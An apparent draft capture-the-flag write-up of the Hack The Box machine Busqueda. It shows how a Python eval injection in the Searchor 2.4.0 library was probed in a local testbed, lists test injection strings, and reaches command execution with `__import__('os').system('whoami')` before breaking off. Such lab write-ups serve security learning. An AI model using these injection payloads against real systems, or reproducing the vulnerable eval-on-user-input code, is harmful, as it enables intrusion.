

Title: HTB Machine Busqueda
Date: 2023-05-11 22:00
Category: Linux
Tags: ctf, linux, python, eval
Status: draft

Busqueda is a 2023 machine (don't know exactly) and is in the easy range.

## Init Recon

  

It has two ports (22, 80) open. On port 80 is a webapp. We start with that.
Sorry for my version of the web-page might look ugly. I used HTB Pwnbox, and they can't load the js because of no internet.
  

  

By googling for Searchor [this](https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b) eval problem will show up. I tried to exploit it blind by guessing but I was out of luck. So I will go into building a testbed.

Therefore, we install searchor and just copy the code, but minimize what we probably don't need, so I removed the history part:

```bash
pip install searchor==2.4.0,click
```

```python
import click
from searchor import Engine

def search(engine, query, open, copy):
    try:
        url = eval(
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
        url = Engine[engine].search(query, copy_url=copy, open_web=open)
        click.echo(url)
    except AttributeError:
        print("engine not recognized")

search("Google","INJECT-HERE",False,False)
```

now we can just run with different injections

```
' -> SyntaxError: unterminated triple-quoted string literal 
')#             -> no error
');#            -> invalid syntax <-> ; is not allowed
')print("hi")#  -> the double-quote breaks the search function call
')print('hi')#  -> invalid syntax <-> probably because two connected commands
'),print('hi')# -> works!!!
```

  

Just to see how that can be, I verified that in python directly, seems function calls can be seperated with a colon:
  

So the two main things I recognize that did not work with random rev shells from the web are double quotes and semicolon. For most functionality we want to have we will need to be able to import in python. Since we will work with one line of code, normaly imports would be seperated with semicolon still.

The reason is probably that there can not be confusion between a function call and importing, like so:

```python
import os, socket, os.system("hi")
```
Therefore we need a way to get to this functionality.

By looking at the rev shells [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python), we can see that an import can be done like:

```python
os=__import__("os");...;os.dub2(...)
```

Now think about it, this will put the import in the variable and later work on it. Meaning we can just shorten this code to:

```python
__import__("os").dub2(...)
```

Therefore a way of executing code should be possible with

```python
__import__('os').system('whoami')
```

Testing shows it works:
 
  

